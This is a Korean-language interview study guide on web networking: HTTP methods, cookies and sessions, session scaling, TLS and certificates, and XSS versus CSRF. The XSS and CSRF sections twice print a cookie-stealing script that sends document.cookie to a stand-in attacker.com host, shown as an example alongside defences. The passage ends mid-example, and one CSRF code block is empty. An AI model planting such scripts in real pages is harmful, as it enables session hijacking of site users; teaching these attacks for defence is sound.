PATCH  /users/123    # 사용자 123 부분 수정
DELETE /users/123    # 사용자 123 삭제
```

**선택 기준:**

**POST 사용:**
- 새 리소스 생성
- ID를 서버가 생성
- 멱등성 불필요

**PUT 사용:**
- 리소스 전체 수정
- 멱등성이 중요
- 전체 필드 제공 가능

**PATCH 사용:**
- 리소스 부분 수정
- 필요한 필드만 전송
- 효율적인 업데이트

**결론:**
- **POST**: 리소스 생성, 멱등성 없음
- **PUT**: 전체 수정, 멱등성 있음, 덮어쓰기
- **PATCH**: 부분 수정, 멱등성 없을 수 있음, 선택적 업데이트
- **선택**: 용도와 요구사항에 따라 결정

### NET-021
Q. HTTP 1.1 이후로, GET에도 Body에 데이터를 실을 수 있게 되었습니다. 그럼에도 불구하고 왜 아직도 이런 방식을 지양하는 것일까요?

**GET 요청에 Body를 포함하는 것은 기술적으로 가능하지만, 여러 이유로 지양됨.**

**기술적 가능성:**
- HTTP/1.1 스펙상 GET 요청에 Body 포함 가능
- 일부 서버/프록시가 처리 가능
- 하지만 표준에서 명시적으로 금지하지 않음

**지양하는 이유:**

**1. 표준 및 호환성 문제**
- 많은 서버, 프록시, 라우터가 GET Body를 무시하거나 거부
- 예측 불가능한 동작
- 캐싱 프록시가 Body를 고려하지 않음

**2. 캐싱 문제**
- GET은 캐시 가능해야 함
- Body가 있으면 캐시 키 생성 어려움
- 캐시 무효화 복잡

**3. 의미론적 문제**
- GET은 조회용 (Safe, Idempotent)
- Body는 데이터 전송용
- 의미론적으로 맞지 않음

**4. 보안 문제**
- URL에 데이터 노출 (로그, 히스토리)
- Body에 데이터를 넣어도 의미 없음
- 민감한 정보는 POST 사용

**5. 브라우저 지원**
- 대부분의 브라우저가 GET Body를 지원하지 않음
- 또는 무시함
- 실제 사용 불가능

```mermaid
graph TD
    A[GET Body 사용] --> B[기술적 가능]
    A --> C[지양 이유]
    
    C --> D[호환성 문제<br/>서버/프록시 무시]
    C --> E[캐싱 문제<br/>캐시 키 생성 어려움]
    C --> F[의미론적 문제<br/>GET은 조회용]
    C --> G[보안 문제<br/>URL에 노출]
    C --> H[브라우저 지원<br/>대부분 미지원]
    
    style C fill:#ff9999
```

**실제 문제:**

**1. 서버/프록시 무시:**
```
GET /api/search HTTP/1.1
Content-Type: application/json

{"query": "keyword"}

→ 많은 서버가 Body를 무시
→ 쿼리 스트링만 처리
→ 예상과 다른 동작
```

**2. 캐싱 문제:**
```
GET /api/data HTTP/1.1
Body: {filter: "active"}

→ 캐시 키: /api/data
→ Body의 filter가 캐시 키에 포함 안 됨
→ 잘못된 캐시 반환
```

**3. 브라우저 동작:**
```javascript
// 대부분의 브라우저가 Body 무시
fetch('/api/search', {
  method: 'GET',
  body: JSON.stringify({query: 'keyword'})
});
// → Body가 전송되지 않을 수 있음
```

**대안:**

**1. 쿼리 스트링 사용:**
```
GET /api/search?q=keyword&page=1
→ 표준 방식
→ 캐시 가능
→ 브라우저 지원
```

**2. POST 사용:**
```
POST /api/search
Body: {query: "keyword", filters: {...}}

→ 복잡한 데이터 전송
→ Body 사용 가능
```

**3. POST with Query:**
```
POST /api/search?action=search
Body: {query: "keyword"}

→ 의미론적으로 명확
→ Body 사용 가능
```

**표준 권장사항:**

**RFC 7231:**
- GET은 정보 검색용
- Body는 의미론적으로 적절하지 않음
- 쿼리 스트링 사용 권장

**실제 사례:**

**지원하는 경우:**
- 일부 REST API (Elasticsearch 등)
- 하지만 표준이 아님
- 호환성 문제 가능

**지원하지 않는 경우:**
- 대부분의 웹 서버
- 프록시 서버
- 브라우저

**결론:**
- **기술적 가능**: HTTP/1.1 스펙상 가능
- **지양 이유**: 호환성, 캐싱, 의미론, 보안, 브라우저 지원
- **대안**: 쿼리 스트링 또는 POST 사용
- **권장**: GET은 쿼리 스트링, 복잡한 데이터는 POST

---

## 📌 쿠키와 세션

### NET-022
Q. 쿠키와 세션의 차이에 대해 설명해 주세요.

**쿠키(Cookie)**와 **세션(Session)**은 HTTP의 Stateless 특성을 보완하기 위한 상태 관리 방법.

**쿠키 (Cookie):**

**정의:**
- 클라이언트(브라우저)에 저장되는 작은 데이터
- 서버가 Set-Cookie 헤더로 전송
- 이후 요청마다 자동으로 전송

**저장 위치:**
- 클라이언트 (브라우저)
- 메모리 또는 디스크

**특징:**
- 클라이언트 측 저장
- 크기 제한 (4KB)
- 만료 시간 설정 가능
- 도메인/경로 제한 가능

**세션 (Session):**

**정의:**
- 서버에 저장되는 사용자 상태 정보
- 세션 ID를 쿠키로 전송
- 서버가 세션 데이터 관리

**저장 위치:**
- 서버 (메모리, 데이터베이스, 캐시)
- 클라이언트에는 세션 ID만

**특징:**
- 서버 측 저장
- 크기 제한 없음
- 보안에 유리
- 서버 리소스 사용

```mermaid
graph TD
    A[상태 관리] --> B[쿠키<br/>클라이언트 저장]
    A --> C[세션<br/>서버 저장]
    
    B --> D[데이터 직접 저장<br/>4KB 제한<br/>클라이언트 제어]
    C --> E[세션 ID만 저장<br/>크기 제한 없음<br/>서버 제어]
    
    style B fill:#ffcc99
    style C fill:#99ff99
```

**비교표:**

| 구분 | 쿠키 | 세션 |
|------|------|------|
| **저장 위치** | 클라이언트 (브라우저) | 서버 |
| **데이터** | 실제 데이터 | 세션 ID만 |
| **크기 제한** | 4KB | 제한 없음 |
| **보안** | 상대적으로 낮음 | 상대적으로 높음 |
| **서버 부하** | 낮음 | 높음 |
| **확장성** | 좋음 | 제한적 |
| **만료** | 클라이언트/서버 설정 | 서버 설정 |

**동작 방식:**

**쿠키:**
```
1. 서버: Set-Cookie: session_id=abc123
2. 브라우저: 쿠키 저장
3. 다음 요청: Cookie: session_id=abc123
4. 서버: 쿠키 값으로 사용자 식별
```

**세션:**
```
1. 서버: 세션 데이터 저장 (서버 메모리/DB)
2. 서버: Set-Cookie: session_id=abc123
3. 브라우저: 세션 ID만 저장
4. 다음 요청: Cookie: session_id=abc123
5. 서버: 세션 ID로 서버의 세션 데이터 조회
```

**사용 사례:**

**쿠키 사용:**
- 사용자 설정 (언어, 테마)
- 장바구니 (작은 데이터)
- 추적 정보
- 광고 타겟팅

**세션 사용:**
- 로그인 상태
- 사용자 정보
- 민감한 데이터
- 복잡한 상태

**보안:**

**쿠키:**
- 클라이언트에서 조작 가능
- XSS 공격에 취약
- HttpOnly, Secure 플래그 사용 권장

**세션:**
- 서버에서 관리
- 클라이언트는 ID만 가짐
- 상대적으로 안전

**실제 예시:**

**쿠키:**
```http
Set-Cookie: theme=dark; Path=/; Max-Age=3600
Set-Cookie: lang=ko; Path=/; Max-Age=86400
```

**세션:**
```http
Set-Cookie: JSESSIONID=abc123; HttpOnly; Secure
→ 서버에서 abc123으로 세션 데이터 조회
```

**하이브리드 방식:**

**일반적인 사용:**
- 세션 ID는 쿠키로 전송
- 실제 데이터는 서버에 저장
- 쿠키와 세션을 함께 사용

**결론:**
- **쿠키**: 클라이언트 저장, 작은 데이터, 빠름
- **세션**: 서버 저장, 큰 데이터, 안전
- **차이**: 저장 위치와 보안 수준
- **사용**: 용도에 따라 선택 또는 함께 사용

### NET-023
Q. 세션 방식의 로그인 과정에 대해 설명해 주세요.

**세션 방식 로그인은 서버에 세션을 생성하고 세션 ID를 쿠키로 전송하는 과정.**

**로그인 과정:**

**1. 로그인 요청**
```
POST /login HTTP/1.1
Content-Type: application/json

{
  "username": "user",
  "password": "pass123"
}
```

**2. 서버 인증**
- 사용자명/비밀번호 검증
- 데이터베이스에서 확인
- 인증 성공 시 세션 생성

**3. 세션 생성**
- 서버에 세션 데이터 저장
- 세션 ID 생성 (예: abc123)
- 세션 데이터: {user_id: 1, username: "user", login_time: "..."}

**4. 세션 ID 전송**
```
HTTP/1.1 200 OK
Set-Cookie: session_id=abc123; HttpOnly; Secure; SameSite=Strict
```

**5. 이후 요청**
```
GET /api/profile HTTP/1.1
Cookie: session_id=abc123

→ 서버가 세션 ID로 사용자 정보 조회
→ 인증된 사용자로 처리
```

```mermaid
sequenceDiagram
    participant C as 클라이언트
    participant S as 서버
    participant DB as 데이터베이스
    
    C->>S: POST /login (username, password)
    S->>DB: 사용자 인증 확인
    DB-->>S: 인증 성공
    S->>S: 세션 생성 (session_id=abc123)
    S->>DB: 세션 데이터 저장
    S-->>C: Set-Cookie: session_id=abc123
    C->>C: 쿠키 저장
    
    Note over C,S: 이후 요청
    C->>S: GET /api/profile<br/>Cookie: session_id=abc123
    S->>DB: 세션 조회
    DB-->>S: 세션 데이터 반환
    S-->>C: 사용자 정보 반환
```

**상세 과정:**

**1. 로그인 요청:**
```javascript
// 클라이언트
fetch('/login', {
  method: 'POST',
  headers: {'Content-Type': 'application/json'},
  body: JSON.stringify({
    username: 'user',
    password: 'pass123'
  })
});
```

**2. 서버 인증:**
```javascript
// 서버
app.post('/login', (req, res) => {
  const {username, password} = req.body;
  
  // 데이터베이스에서 사용자 확인
  const user = db.findUser(username, password);
  
  if (user) {
    // 세션 생성
    const sessionId = generateSessionId();
    const sessionData = {
      userId: user.id,
      username: user.username,
      loginTime: new Date()
    };
    
    // 세션 저장 (메모리, Redis 등)
    sessions[sessionId] = sessionData;
    
    // 세션 ID를 쿠키로 전송
    res.cookie('session_id', sessionId, {
      httpOnly: true,
      secure: true,
      sameSite: 'strict',
      maxAge: 3600000 // 1시간
    });
    
    res.json({success: true});
  } else {
    res.status(401).json({error: 'Invalid credentials'});
  }
});
```

**3. 인증 미들웨어:**
```javascript
// 세션 확인 미들웨어
function authenticate(req, res, next) {
  const sessionId = req.cookies.session_id;
  
  if (!sessionId) {
    return res.status(401).json({error: 'Not authenticated'});
  }
  
  const session = sessions[sessionId];
  
  if (!session) {
    return res.status(401).json({error: 'Invalid session'});
  }
  
  // 세션 만료 확인
  if (isExpired(session)) {
    delete sessions[sessionId];
    return res.status(401).json({error: 'Session expired'});
  }
  
  // 사용자 정보를 요청에 추가
  req.user = session;
  next();
}
```

**4. 보호된 리소스 접근:**
```javascript
app.get('/api/profile', authenticate, (req, res) => {
  // req.user에 사용자 정보 있음
  res.json({
    userId: req.user.userId,
    username: req.user.username
  });
});
```

**세션 만료:**

**자동 만료:**
- 서버에서 만료 시간 설정
- 일정 시간 비활성 시 만료
- 로그아웃 시 삭제

**로그아웃:**
```
POST /logout HTTP/1.1
Cookie: session_id=abc123

→ 서버에서 세션 삭제
→ 쿠키 삭제 또는 만료 설정
```

**보안 고려사항:**

**1. HttpOnly 플래그**
- JavaScript 접근 방지
- XSS 공격 완화

**2. Secure 플래그**
- HTTPS에서만 전송
- 중간자 공격 방지

**3. SameSite 플래그**
- CSRF 공격 방지
- Strict 또는 Lax 설정

**4. 세션 고정 공격 방지**
- 로그인 시 새 세션 ID 생성
- 기존 세션 무효화

**결론:**
- **과정**: 로그인 요청 → 인증 → 세션 생성 → 세션 ID 전송
- **이후**: 세션 ID로 사용자 식별
- **보안**: HttpOnly, Secure, SameSite 플래그 사용
- **만료**: 시간 기반 또는 로그아웃 시

### NET-024
Q. Stateless의 의미를 살펴보면, 세션은 적절하지 않은 인증 방법 아닌가요?

**맞습니다. 세션은 기술적으로 Stateless를 위반하지만, 실용적인 이유로 널리 사용됨.**

**Stateless 위반:**

**HTTP Stateless 원칙:**
- 서버가 클라이언트 상태를 기억하지 않음
- 각 요청이 독립적

**세션의 문제:**
- 서버가 세션 데이터를 저장
- 상태를 기억함
- Stateless 원칙 위반

**하지만 실용적 이유:**

**1. Stateless의 한계**
- 복잡한 애플리케이션에서 상태 관리 필요
- 로그인, 장바구니, 사용자 설정 등
- 완전한 Stateless는 어려움

**2. 세션의 장점**
- 보안 (서버에서 관리)
- 큰 데이터 저장 가능
- 서버 제어 가능

**3. 실용적 타협**
- 이론적 순수성보다 실용성
- 대부분의 웹 애플리케이션에서 사용
- 사실상의 표준

```mermaid
graph TD
    A[HTTP Stateless] --> B[이론적 원칙]
    A --> C[실제 구현]
    
    B --> D[서버가 상태<br/>기억 안 함]
    C --> E[세션 사용<br/>상태 저장]
    
    E --> F[실용적 이유<br/>보안, 편의성]
    E --> G[Stateless 위반<br/>하지만 널리 사용]
    
    style E fill:#ffcc99
    style F fill:#99ff99
```

**대안 방법:**

**1. 토큰 기반 (JWT)**
- Stateless 유지
- 토큰에 정보 포함
- 서버 저장 불필요

**2. 쿠키만 사용**
- 클라이언트에 모든 정보
- 보안 문제
- 크기 제한

**3. 하이브리드**
- 세션 + 토큰
- 상황에 따라 선택

**비교:**

| 구분 | 순수 Stateless | 세션 | JWT |
|------|----------------|------|-----|
| **서버 저장** | 없음 | 있음 | 없음 |
| **Stateless 준수** | ✅ | ❌ | ✅ |
| **보안** | 낮음 | 높음 | 중간 |
| **확장성** | 높음 | 낮음 | 높음 |
| **실용성** | 낮음 | 높음 | 높음 |

**실제 사용:**

**세션 사용 이유:**
- 보안이 중요
- 서버 제어 필요
- 복잡한 상태 관리

**JWT 사용 이유:**
- 확장성 중요
- 마이크로서비스
- Stateless 유지

**결론:**
- **Stateless 위반**: 세션은 서버에 상태 저장
- **실용적 이유**: 보안, 편의성으로 널리 사용
- **대안**: JWT 등 Stateless 방법 존재
- **선택**: 요구사항에 따라 결정
- **현실**: 완전한 Stateless는 어렵고, 세션이 실용적

### NET-025
Q. 규모가 커져 서버가 여러 개가 된다면, 세션을 어떻게 관리할 수 있을까요?

**여러 서버 환경에서 세션 관리는 세션 스티키, 세션 클러스터링, 외부 저장소 사용 등의 방법이 있음.**

**문제 상황:**

**단일 서버:**
```
클라이언트 → 서버 1 (세션 저장)
→ 같은 서버로 요청 → 세션 조회 가능
```

**여러 서버:**
```
클라이언트 → 서버 1 (세션 저장)
→ 다음 요청 → 서버 2
→ 세션 없음 → 로그인 필요
```

**해결 방법:**

**1. 세션 스티키 (Session Sticky)**
- 같은 클라이언트를 같은 서버로 라우팅
- 로드밸런서에서 IP 또는 쿠키 기반

**2. 세션 클러스터링 (Session Clustering)**
- 서버 간 세션 복제
- 모든 서버가 세션 공유

**3. 외부 저장소 (Shared Storage)**
- 세션을 외부 저장소에 저장
- 모든 서버가 접근 가능

```mermaid
graph TD
    A[여러 서버 세션 관리] --> B[세션 스티키<br/>같은 서버로 라우팅]
    A --> C[세션 클러스터링<br/>서버 간 복제]
    A --> D[외부 저장소<br/>공유 저장소]
    
    B --> E[로드밸런서<br/>IP/쿠키 기반]
    C --> F[서버 간<br/>세션 동기화]
    D --> G[Redis/DB<br/>중앙 저장소]
    
    style D fill:#99ff99
```

**1. 세션 스티키 (Session Sticky):**

**방법:**
- 로드밸런서가 클라이언트를 특정 서버로 고정
- IP 주소 또는 쿠키 기반

**장점:**
- 구현 간단
- 서버 메모리 사용
- 빠른 조회

**단점:**
- 서버 장애 시 세션 손실
- 부하 분산 제한
- 서버 추가/제거 시 문제

**구현:**
```nginx
# Nginx 설정
upstream backend {
    ip_hash;  # IP 기반 스티키
    server server1;
    server server2;
}
```

**2. 세션 클러스터링:**

**방법:**
- 서버 간 세션 복제
- 한 서버의 세션 변경을 다른 서버에 전파

**장점:**
- 모든 서버에서 세션 접근
- 서버 장애 시에도 세션 유지

**단점:**
- 네트워크 오버헤드
- 복제 지연
- 메모리 사용 증가

**구현:**
- Tomcat 세션 복제
- 서버 간 멀티캐스트

**3. 외부 저장소 (권장):**

**방법:**
- 세션을 외부 저장소에 저장
- Redis, Memcached, 데이터베이스 사용

**장점:**
- 확장성 좋음
- 서버 추가/제거 용이
- 세션 공유 용이

**단점:**
- 네트워크 지연
- 저장소 의존성

**Redis 사용 예시:**
```javascript
// 세션 저장
const sessionId = generateSessionId();
await redis.setex(
  `session:${sessionId}`,
  3600,  // 1시간
  JSON.stringify(sessionData)
);

// 세션 조회
const sessionData = await redis.get(`session:${sessionId}`);
```

**비교표:**

| 구분 | 세션 스티키 | 세션 클러스터링 | 외부 저장소 |
|------|-------------|-----------------|-------------|
| **구현** | 간단 | 복잡 | 중간 |
| **확장성** | 낮음 | 중간 | 높음 |
| **장애 대응** | 나쁨 | 좋음 | 좋음 |
| **성능** | 빠름 | 중간 | 빠름 (Redis) |
| **메모리** | 분산 | 중복 | 중앙 |

**실제 사용:**

**소규모:**
- 세션 스티키
- 간단한 구현

**중규모:**
- 세션 클러스터링
- 서버 간 복제

**대규모 (권장):**
- Redis/Memcached
- 확장성과 성능

**Redis 세션 스토어:**
```javascript
// Express + Redis
const session = require('express-session');
const RedisStore = require('connect-redis')(session);

app.use(session({
  store: new RedisStore({
    host: 'redis-server',
    port: 6379
  }),
  secret: 'secret-key',
  resave: false,
  saveUninitialized: false
}));
```

**결론:**
- **세션 스티키**: 간단하지만 확장성 낮음
- **세션 클러스터링**: 복제 오버헤드
- **외부 저장소**: 확장성과 성능 (Redis 권장)
- **선택**: 규모와 요구사항에 따라 결정

---

## 📌 HTTPS 및 보안

### NET-026
Q. 공개키와 대칭키에 대해 설명해 주세요.

**공개키(Public Key)**와 **대칭키(Symmetric Key)**는 암호화 방식의 두 가지 주요 방법.

**대칭키 암호화:**

**정의:**
- 암호화와 복호화에 같은 키 사용
- 송신자와 수신자가 같은 키 공유

**특징:**
- 빠른 암호화/복호화
- 키 관리 어려움
- 키 배포 문제

**예시:**
```
암호화: 평문 + 키 → 암호문
복호화: 암호문 + 키 → 평문
→ 같은 키 사용
```

**공개키 암호화:**

**정의:**
- 암호화와 복호화에 다른 키 사용
- 공개키와 개인키 쌍

**특징:**
- 느린 암호화/복호화
- 키 관리 용이
- 키 배포 용이

**예시:**
```
암호화: 평문 + 공개키 → 암호문
복호화: 암호문 + 개인키 → 평문
→ 다른 키 사용
```

```mermaid
graph TD
    A[암호화 방식] --> B[대칭키<br/>같은 키]
    A --> C[공개키<br/>다른 키]
    
    B --> D[빠름<br/>키 배포 어려움]
    C --> E[느림<br/>키 배포 용이]
    
    style B fill:#ffcc99
    style C fill:#99ff99
```

**비교표:**

| 구분 | 대칭키 | 공개키 |
|------|--------|--------|
| **키 개수** | 1개 | 2개 (공개키, 개인키) |
| **속도** | 빠름 | 느림 |
| **키 배포** | 어려움 (안전한 채널 필요) | 용이 (공개키 공개) |
| **용도** | 대용량 데이터 암호화 | 키 교환, 디지털 서명 |
| **예시** | AES, DES | RSA, ECC |

**실제 사용 (HTTPS):**

**하이브리드 방식:**
1. 공개키로 대칭키 교환
2. 대칭키로 데이터 암호화

**과정:**
```
1. 클라이언트: 서버 공개키로 대칭키 암호화 전송
2. 서버: 개인키로 대칭키 복호화
3. 양쪽: 대칭키로 데이터 암호화 통신
```

**장단점:**

**대칭키:**
- ✅ 빠름
- ❌ 키 배포 어려움
- ❌ 키 관리 복잡

**공개키:**
- ✅ 키 배포 용이
- ✅ 키 관리 간단
- ❌ 느림

**결론:**
- **대칭키**: 같은 키, 빠름, 키 배포 어려움
- **공개키**: 다른 키, 느림, 키 배포 용이
- **실제**: 하이브리드 방식 사용 (공개키로 키 교환, 대칭키로 데이터 암호화)

### NET-027
Q. 왜 HTTPS Handshake 과정에서는 인증서를 사용하는 것 일까요?

**HTTPS 핸드셰이크에서 인증서를 사용하는 이유는 서버의 신원을 검증하고 중간자 공격을 방지하기 위해서.**

**문제 상황:**

**공개키만 사용 시:**
```
클라이언트 → 공격자 (가짜 서버)
→ 공격자가 자신의 공개키 전송
→ 클라이언트가 공격자와 통신
→ 중간자 공격 성공
```

**인증서의 역할:**

**1. 서버 신원 확인**
- 인증서에 서버 정보 포함
- CA(인증 기관)가 검증
- 신뢰할 수 있는 서버 확인

**2. 공개키 검증**
- 인증서에 서버 공개키 포함
- CA가 서명
- 위조 불가능

**3. 중간자 공격 방지**
- 공격자가 가짜 인증서 생성 불가
- CA 서명 없이는 신뢰 불가

```mermaid
graph TD
    A[HTTPS 핸드셰이크] --> B[서버 인증서 전송]
    B --> C[CA 검증]
    C --> D{신뢰할 수 있음?}
    D -->|예| E[공개키 추출<br/>통신 시작]
    D -->|아니오| F[경고 표시<br/>연결 거부]
    
    style E fill:#99ff99
    style F fill:#ff9999
```

**인증서 구조:**

**인증서 내용:**
- 서버 도메인
- 서버 공개키
- 발급 기관 (CA)
- 유효 기간
- CA 서명

**검증 과정:**
```
1. 서버: 인증서 전송
2. 클라이언트: CA 공개키로 서명 검증
3. 클라이언트: 도메인 확인
4. 클라이언트: 유효 기간 확인
5. 검증 성공 → 공개키 추출
```

**CA (Certificate Authority):**

**역할:**
- 서버 신원 확인
- 인증서 발급
- 서명 생성

**신뢰 체인:**
```
Root CA (최상위)
  ↓ 서명
Intermediate CA (중간)
  ↓ 서명
Server Certificate (서버)
```

**브라우저 동작:**

**신뢰할 수 있는 인증서:**
- CA가 서명한 인증서
- 브라우저가 CA 공개키 보유
- 자동으로 검증

**신뢰할 수 없는 인증서:**
- 자체 서명 인증서
- 만료된 인증서
- 도메인 불일치
- 경고 표시

**실제 예시:**

**정상 연결:**
```
1. 클라이언트: https://example.com 접속
2. 서버: 인증서 전송 (Let's Encrypt 발급)
3. 브라우저: Let's Encrypt CA로 검증
4. 검증 성공 → 자물쇠 아이콘 표시
5. 통신 시작
```

**중간자 공격 시도:**
```
1. 공격자: 가짜 인증서 생성
2. 클라이언트: CA 검증 실패
3. 브라우저: "신뢰할 수 없는 연결" 경고
4. 사용자: 연결 거부 또는 경고 확인
```

**자체 서명 인증서:**

**용도:**
- 개발/테스트 환경
- 내부 네트워크

**문제:**
- 브라우저가 신뢰하지 않음
- 경고 표시
- 프로덕션에는 부적합

**결론:**
- **인증서 목적**: 서버 신원 확인, 공개키 검증
- **CA 역할**: 신뢰할 수 있는 기관이 검증
- **중간자 공격 방지**: 가짜 인증서 생성 불가
- **브라우저 검증**: 자동으로 CA 검증
- **필수성**: HTTPS 보안의 핵심

### NET-028
Q. SSL과 TLS의 차이는 무엇인가요?

**SSL (Secure Sockets Layer)**과 **TLS (Transport Layer Security)**는 암호화 프로토콜로, TLS가 SSL의 후속 버전.

**역사:**

**SSL:**
- Netscape가 개발 (1994)
- SSL 1.0, 2.0, 3.0
- 현재는 사용 중단 (보안 취약점)

**TLS:**
- IETF가 표준화 (1999)
- SSL 3.0 기반
- TLS 1.0, 1.1, 1.2, 1.3

**관계:**
- TLS는 SSL의 개선된 버전
- SSL 3.0 → TLS 1.0
- 현재는 TLS 사용

```mermaid
graph LR
    A[SSL] --> B[SSL 1.0<br/>1994]
    A --> C[SSL 2.0<br/>1995]
    A --> D[SSL 3.0<br/>1996]
    D --> E[TLS 1.0<br/>1999]
    E --> F[TLS 1.1<br/>2006]
    F --> G[TLS 1.2<br/>2008]
    G --> H[TLS 1.3<br/>2018]
    
    style D fill:#ffcc99
    style H fill:#99ff99
```

**주요 차이점:**

**1. 보안:**
- **SSL**: 보안 취약점 (POODLE 등)
- **TLS**: 보안 강화

**2. 암호화 알고리즘:**
- **SSL**: 오래된 알고리즘
- **TLS**: 최신 알고리즘 지원

**3. 호환성:**
- **SSL**: 구형 브라우저
- **TLS**: 현대 브라우저

**버전별 특징:**

**SSL 3.0:**
- 1996년 발표
- 현재 사용 중단 (보안 취약점)
- POODLE 공격에 취약

**TLS 1.0:**
- SSL 3.0 기반
- 현재 사용 중단 권장

**TLS 1.1:**
- 보안 개선
- 현재 사용 중단 권장

**TLS 1.2:**
- 현재 널리 사용
- 강력한 암호화
- 대부분의 브라우저 지원

**TLS 1.3:**
- 최신 버전 (2018)
- 성능 개선
- 보안 강화
- 점진적 도입

**현재 사용:**

**권장:**
- TLS 1.2 이상
- TLS 1.3 권장

**비권장:**
- SSL 모든 버전
- TLS 1.0, 1.1

**실제 사용:**

**HTTPS:**
- HTTPS는 TLS 사용
- "SSL 인증서"는 관용적 표현
- 실제로는 TLS 인증서

**서버 설정:**
```nginx
# Nginx
ssl_protocols TLSv1.2 TLSv1.3;
ssl_prefer_server_ciphers on;
```

**브라우저 지원:**

**TLS 1.2:**
- 모든 현대 브라우저 지원
- 기본 사용

**TLS 1.3:**
- Chrome, Firefox, Safari 지원
- 점진적 도입

**결론:**
- **SSL**: 구버전, 사용 중단
- **TLS**: SSL의 후속, 현재 사용
- **차이**: 보안, 알고리즘, 성능
- **현재**: TLS 1.2 이상 사용
- **용어**: "SSL"은 관용적 표현, 실제로는 TLS

### NET-029
Q. XSS에 대해서 설명해 주세요.

**XSS (Cross-Site Scripting)**는 웹 애플리케이션에 악성 스크립트를 삽입하여 사용자를 공격하는 취약점.

**정의:**
- 공격자가 웹 페이지에 악성 JavaScript 코드 삽입
- 다른 사용자가 해당 페이지 접속 시 스크립트 실행
- 사용자 정보 탈취, 세션 하이재킹 등

**공격 유형:**

**1. Stored XSS (저장형)**
- 악성 스크립트를 서버에 저장
- 데이터베이스에 저장됨
- 모든 사용자에게 영향

**2. Reflected XSS (반사형)**
- URL 파라미터에 스크립트 포함
- 서버가 그대로 반환
- 특정 사용자만 영향

**3. DOM-based XSS**
- 클라이언트 측에서 발생
- DOM 조작으로 스크립트 실행
- 서버와 무관

```mermaid
graph TD
    A[XSS 공격] --> B[Stored XSS<br/>서버 저장]
    A --> C[Reflected XSS<br/>URL 반사]
    A --> D[DOM-based XSS<br/>클라이언트]
    
    B --> E[게시판, 댓글<br/>모든 사용자 영향]
    C --> F[검색, 에러 메시지<br/>특정 사용자]
    D --> G[DOM 조작<br/>클라이언트 실행]
    
    style A fill:#ff9999
```

**공격 예시:**

**Stored XSS:**
```
1. 공격자: 댓글에 스크립트 입력
   <script>alert(document.cookie)</script>
2. 서버: 댓글 저장 (스크립트 포함)
3. 사용자: 페이지 접속
4. 브라우저: 스크립트 실행
5. 쿠키 탈취
```

**Reflected XSS:**
```
1. 공격자: 악성 링크 생성
   https://example.com/search?q=<script>alert('XSS')</script>
2. 사용자: 링크 클릭
3. 서버: 검색어를 그대로 반환
4. 브라우저: 스크립트 실행
```

**피해:**

**1. 쿠키 탈취**
```javascript
// 공격 스크립트
<script>
  document.location = 'http://attacker.com/steal?cookie=' + document.cookie;
</script>
```

**2. 세션 하이재킹**
- 세션 ID 탈취
- 공격자가 사용자로 위장

**3. 피싱**
- 가짜 로그인 폼 표시
- 사용자 정보 입력 유도

**4. 키로거**
- 키보드 입력 감지
- 비밀번호 탈취

**방어 방법:**

**1. 입력 검증 (Validation)**
- 사용자 입력 검증
- 특수 문자 이스케이프

**2. 출력 인코딩 (Encoding)**
- HTML 엔티티 인코딩
- `<` → `&lt;`
- `>` → `&gt;`

**3. Content Security Policy (CSP)**
- 허용된 스크립트만 실행
- 인라인 스크립트 차단

**4. HttpOnly 쿠키**
- JavaScript 접근 방지
- 쿠키 탈취 어려움

**실제 방어:**

**서버 측:**
```javascript
// 입력 검증
function sanitize(input) {
  return input
    .replace(/</g, '&lt;')
    .replace(/>/g, '&gt;')
    .replace(/"/g, '&quot;')
    .replace(/'/g, '&#x27;');
}

// 출력 인코딩
res.send(sanitize(userInput));
```

**클라이언트 측:**
```javascript
// 텍스트 노드 사용 (자동 이스케이프)
const text = document.createTextNode(userInput);
element.appendChild(text);

// innerHTML 대신 textContent 사용
element.textContent = userInput; // 안전
// element.innerHTML = userInput; // 위험
```

**CSP 설정:**
```http
Content-Security-Policy: default-src 'self'; script-src 'self'
```

**결론:**
- **XSS**: 악성 스크립트 삽입 공격
- **유형**: Stored, Reflected, DOM-based
- **피해**: 쿠키 탈취, 세션 하이재킹
- **방어**: 입력 검증, 출력 인코딩, CSP, HttpOnly

### NET-030
Q. CSRF랑 XSS는 어떤 차이가 있나요?

**CSRF (Cross-Site Request Forgery)**와 **XSS (Cross-Site Scripting)**는 다른 종류의 웹 공격.

**주요 차이점:**

| 구분 | XSS | CSRF |
|------|-----|------|
| **공격 대상** | 사용자 | 사용자 (서버에 요청) |
| **공격 방식** | 스크립트 삽입 | 요청 위조 |
| **실행 위치** | 피해자 브라우저 | 피해자 브라우저 |
| **목적** | 사용자 정보 탈취 | 사용자 권한으로 악의적 요청 |
| **필요 조건** | 웹사이트 취약점 | 사용자 인증 상태 |

```mermaid
graph TD
    A[웹 공격] --> B[XSS<br/>스크립트 삽입]
    A --> C[CSRF<br/>요청 위조]
    
    B --> D[사용자 정보 탈취<br/>쿠키, 세션]
    C --> E[사용자 권한으로<br/>요청 실행]
    
    B --> F[웹사이트 취약점<br/>필요]
    C --> G[사용자 인증 상태<br/>필요]
    
    style B fill:#ff9999
    style C fill:#ffcc99
```

**XSS (Cross-Site Scripting):**

**공격 방식:**
- 웹사이트에 악성 스크립트 삽입
- 사용자가 페이지 접속 시 스크립트 실행
- 사용자 브라우저에서 실행

**목적:**
- 쿠키/세션 탈취
- 사용자 정보 수집
- 피싱

**예시:**
```html
<!-- 공격자가 댓글에 삽입 -->
<script>
  document.location = 'http://attacker.com/steal?cookie=' + document.cookie;
</script>
```

**CSRF (Cross-Site Request Forgery):**

**공격 방식:**
- 사용자가 인증된 상태에서
- 공격자 사이트에서 악의적 요청 유도
- 사용자 브라우저가 자동으로 요청 전송

**목적:**
- 사용자 권한으로 악의적 요청
- 비밀번호 변경, 금융 거래 등

**예시:**
```html
<!-- 공격자 사이트 -->

<!-- 사용자가 이 페이지 접속 시 자동으로 요청 전송 -->
```

**상세 비교:**

**XSS:**
```
1. 공격자: 웹사이트에 스크립트 삽입
2. 사용자: 웹사이트 접속
3. 브라우저: 스크립트 실행
4. 결과: 쿠키 탈취, 정보 수집
```

**CSRF:**
```
1. 사용자: bank.com 로그인 (쿠키 저장)
2. 공격자: 악의적 링크/이미지 포함 페이지 접속
3. 브라우저: bank.com에 자동 요청 (쿠키 포함)
4. 결과: 사용자 권한으로 악의적 요청 실행
```

**방어 방법:**

**XSS 방어:**
- 입력 검증
- 출력 인코딩
- CSP (Content Security Policy)
- HttpOnly 쿠키

**CSRF 방어:**
- CSRF 토큰
- SameSite 쿠키
- Referer 검증
- Double Submit Cookie

**CSRF 토큰 예시:**
```html
<!-- 폼에 토큰 포함 -->
